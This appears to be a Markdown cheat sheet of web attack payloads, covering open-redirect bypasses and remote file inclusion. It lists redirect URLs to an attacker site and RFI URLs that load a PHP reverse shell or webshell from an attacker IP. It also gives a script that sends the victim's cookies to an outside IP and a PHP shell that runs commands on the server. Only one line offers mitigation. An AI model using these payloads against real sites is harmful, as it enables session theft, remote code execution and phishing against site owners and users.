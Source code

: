 # Open Redirect

## Concept
- Allowed: https://example.com/login/?nextPage=https://google.com
- Not allowed: https://example.com/login/?nextPage=https://evilsite.com

## Payload
- https://example.com/login/?nextPage=https://evilsite.com/?google.com
- https://example.com/login/?redirect=https://www.evilsite.google.com
- https://example.com/login/?nextPage=https:///www.google.com@evilsite.com



# Remote File Inclusion

## Exploit
- ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
- ```index.php?page=http://attackerIP/webshell.php``` 
- ```index.php?page=htthttpp://attackerIP/webshell.php```
- ```?page=hTTp://10.20.14.203/reverse.txt?```
## Payloads
- Steal Cookie with "getcookie.txt"
```HTML
<img id="img" src="">
<script>
document.getElementById("img").src="http://192.123.219.2/?cookie="+document.cookie
</script>
```
- Process list of the target server with "shell.php"
```PHP
<?php
$output=shell_exec(“ps -eaf”);
echo “<pre>”.$output.“</pre>”;
?>
```

## Mitigation
-  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```
